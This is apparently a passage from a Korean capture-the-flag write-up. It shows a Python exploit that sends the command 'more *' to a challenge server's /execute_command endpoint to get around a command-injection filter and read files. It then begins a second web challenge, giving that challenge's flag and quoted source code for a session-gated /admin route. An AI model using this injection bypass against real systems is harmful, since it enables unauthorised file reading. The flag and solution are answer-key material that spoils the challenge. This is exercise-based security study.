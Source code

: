 `more *` 명령을 실행히면 위 문자를 사용하지 않고 해당 디렉터리에 파일 내용을 볼 수 있습니다.    

<img src="/flagreading/flag.jpg" width="700px"/>             
       
## Exploit Code

```python
import requests 
url = "http://3.36.132.18:5678"

r = requests.post(
    f"{url}/execute_command",
    data={
        "command": "more *"
    }
)
print(r.text)
```

## 후기

Command Injection 우회 방법들을 다시 리마인드 할 수 있는 좋은 기회였던 것 같습니다. 

------

# Problem

- 분야: 웹
- 체감 난이도(1-10): 4
- Flag: `hspace{Th3_s3cret_key_Mu5t_nOT_Be_le4KeD!!!}`

## 풀이과정
     
```python
try:
    FLAG = open("./flag.txt", "r").read()
except :
    FLAG = "hspace{fake_flag}"

...

@app.route('/admin')
def admin():
    if 'admin' not in session:
        return render_template_string('<script>alert("You are not admin!");location.href="/login"</script>')
    else:
        return "Hello admin here is "+FLAG
```
플래그를 획득하기 위해서 `/admin` 경로에 접근해야합니다.       
             